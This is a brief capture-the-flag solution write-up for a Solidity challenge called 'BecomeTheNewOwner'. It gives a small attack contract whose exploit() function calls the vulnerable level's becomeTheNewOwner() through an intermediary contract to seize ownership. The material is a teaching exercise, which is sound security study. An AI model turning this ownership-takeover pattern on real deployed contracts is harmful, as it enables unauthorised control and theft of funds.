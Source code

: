 # BecomeTheNewOwner

## Solution :

To validate this challenge, the user needs to become the owner of the contract.

To do that, he needs to call the `becomeTheNewOwner()` function with a contract.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/easyChalls/BecomeTheNewOwner.sol";

contract attackBecomeTheNewOwner {
    BecomeTheNewOwner originalContract;

    constructor(address _originalContract) public {
        originalContract = BecomeTheNewOwner(_originalContract);
    }

    function exploit() public {
        originalContract.becomeTheNewOwner();
    }
}
```
